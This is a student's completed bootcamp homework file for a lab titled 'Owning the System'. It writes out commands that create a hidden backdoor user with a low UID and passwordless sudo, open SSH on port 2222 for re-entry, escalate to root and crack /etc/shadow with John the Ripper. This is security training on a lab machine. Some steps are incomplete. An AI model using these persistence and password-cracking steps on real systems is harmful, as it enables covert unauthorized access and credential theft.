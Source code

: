 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:


                root:~\ $ adduser --no-create-home sysd

![create_user_no_home](image/add_user_no_home2.png)



       



2. Give your secret user a password: 


        root:~\ $ passwd sysd

![set_up_password](image/set_up_password2.png)




3. Give your secret user a system UID < 1000:

                 root:~\ $ usermod -u 14 sysd
       

![change_UID](image/change_group_GID2.png)



        

4. Give your secret user the same GID:


        root:~\ $ sudo groupmod -g 14 sysd


![change_group_GID](image/change_group_GID3.png)



5. Give your secret user full `sudo` access without the need for a password:


        sysd ALL=(ALL) NOPASSWD:ALL


![sudo_access_no_password](image\Sudo_access_without_password.png)



6. Test that `sudo` access works without your password:


        sysd@scavenger-hunt:/etc$ sudo visudo



![No_password](image/verifying_root_access_wo_password%20.png)








**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

root:ssh\ $ nano sshd_config




![Editing_sshd_config](image/Nano_sshd_config.png)


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:


root:ssh\ $ sudo systemctl reload ssh



![Restarting_sshd](image/Changing_ports_in_sshd_config.png)



2. Exit the `root` account:

        root:~\ $ su sysadmin

![Switch_user](image/Switch_user.png)



3. SSH to the target machine using your `sysd` account and port `2222`:

                ssh sysd@192.168.6.105 -p 2222


![ssh_command_backintosystem](image/ssh_command_backintosystem.png)



4. Use `sudo` to switch to the root user.


                sysd@scavenger-hunt:~$ sudo -s

![switch_user_to_root](image/switch_user_to_root.png)



**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

root@scavenger-hunt:~# ssh sysd@192.168.6.105 -p 2222


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

                root@scavenger-hunt:/# sudo john shadow_copy

![john_the ripper](image/John_the_ripper_hashtags.png)



---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

